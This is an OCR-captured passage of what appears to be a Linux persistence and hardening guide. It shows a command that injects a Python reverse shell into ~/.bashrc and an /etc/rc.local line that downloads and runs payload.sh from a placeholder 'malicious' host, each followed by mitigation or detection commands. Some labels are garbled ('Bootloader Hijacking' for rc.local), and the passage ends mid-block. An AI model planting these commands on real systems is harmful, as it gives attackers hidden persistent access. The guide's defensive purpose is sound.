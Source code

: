       ```bash                                                                                                                                                                                                                          
      # Reverse shell persistence vector                                                                                                                                                                                               
      echo 'if [ -z "$(pgrep -f "python -c .*socket.*")" ]; then                                                                                                                                                                       
          python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"...                                                                                                                               
      fi' >> ~/.bashrc                                                                                                                                                                                                                 
      ```                                                                                                                                                                                                                              
      **Common Exploit Chains**:                                                                                                                                                                                                       
      `bashrc injection` → `port 53 shell` → `netstat -tulnp` → `root persist()`                                                                                                                                                       
                                                                                                                                                                                                                                       
      **Mitigation**:                                                                                                                                                                                                                  
      ```bash                                                                                                                                                                                                                          
      find /home -name .bashrc -exec chmod 644 {} +                                                                                                                                                                                    
      auditctl -w /home -p war -k file_watch                                                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### 3. **Bootloader Hijacking**                                                                                                                                                                                                  
      ```bash                                                                                                                                                                                                                          
      # Winlogon equivalent manipulation                                                                                                                                                                                               
      echo "cd /tmp; curl -O http://malicious/payload.sh && nohup ./payload.sh &" >> /etc/rc.local                                                                                                                                     
      ```                                                                                                                                                                                                                              
      **Detection Signature**:                                                                                                                                                                                                         
      `grep "nohup" /etc/rc.local | /usr/bin/md5sum`                                                                                                                                                                                   
                                                                                                                                                                                                                                       
      **Fix**:                                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          